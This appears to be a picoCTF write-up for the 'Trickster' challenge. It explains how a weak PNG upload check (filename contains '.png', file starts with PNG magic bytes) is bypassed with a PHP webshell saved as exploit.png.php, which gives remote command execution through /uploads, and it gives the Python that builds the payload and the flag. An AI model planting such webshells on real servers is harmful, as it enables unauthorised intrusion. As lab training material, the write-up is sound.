







## Trickster



We are given a webpage where we can upload PNG images.  



The webpage actually has a `robots.txt` file that reveals a hidden file and endpoint.  



`instructions.txt` discloses some crucial information on how the webpage functions. Submitted files must have `.png` in the filename, and their content must start with the PNG file signature.  



Since this is an Apache server, we can craft a malicious php file that executes a webshell while meeting these requirements, giving us RCE on the webpage.  

```python
header = bytes([0x50, 0x4E, 0x47])	# PNG signature

payload = '''<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>'''

with open('exploit.png.php', 'wb') as f:
	f.write(header + payload.encode())
```

Upon uploading our payload file, we get a message that doesn't detail how to access our file.  



Howeve, recalling the `robots.txt` file from earlier, there was a directory called `/uploads`. Our file is probably stored there.  

Indeed, we can access our file at `/uploads/exploit.png.php` and gain RCE. This reveals a file called `MFRDAZLDMUYDG.txt` in the parent directory.  



This is actually the flag file, and reading it will show the flag.  



Flag: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03}`